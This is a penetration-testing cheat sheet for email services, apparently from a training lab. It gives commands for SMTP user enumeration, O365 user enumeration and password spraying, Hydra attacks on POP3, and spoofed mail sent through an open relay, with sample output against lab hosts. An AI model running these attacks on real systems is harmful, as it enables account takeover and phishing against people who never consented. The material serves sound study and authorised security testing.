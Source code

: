 ```yaml
---
edit:
---
```


# Email Services

## Records

- Online tool - [MXToolbox](https://mxtoolbox.com/)

```bash
# MX
host -t MX example.com
dig mx plaintext.do | grep "MX" | grep -v ";"

# A
host -t A mail1.example.com
```

## User enumeration

### [smtp-user-enum](https://github.com/pentestmonkey/smtp-user-enum)

```bash
# Install
perl -MCPAN -e shell
cpan> install Getopt::Std
wget https://github.com/pentestmonkey/smtp-user-enum/blob/master/smtp-user-enum.pl

# Run
❯ ./smtp-user-enum.pl -M RCPT -U users.list -D inlanefreight.htb -t 10.129.203.12                                             ⏎
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... RCPT
Worker Processes ......... 5
Usernames file ........... users.list
Target count ............. 1
Username count ........... 79
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ inlanefreight.htb

######## Scan started at Thu Sep 25 21:26:18 2025 #########
10.129.203.12: marlin@inlanefreight.htb exists
```

### [O365spray](https://github.com/0xZDH/o365spray)

```bash
# Validate target
python3 o365spray.py --validate --domain msplaintext.xyz

# Identify users
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

## Password Attacks

```bash
# Hydra
hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3

# O365 Spray
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

## Protocol Specifics

### Open Relay

```bash
# Identify
nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

# Relay
swaks --from notifications@example.com --to employees@example.com --header 'Subject: Company Notification' --body ' ---MESSAGE--- ' --server 10.10.11.213
```

## Vulns

- [CVE-2020-7247](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7247) - OpenSMTPD < 6.6.2
-  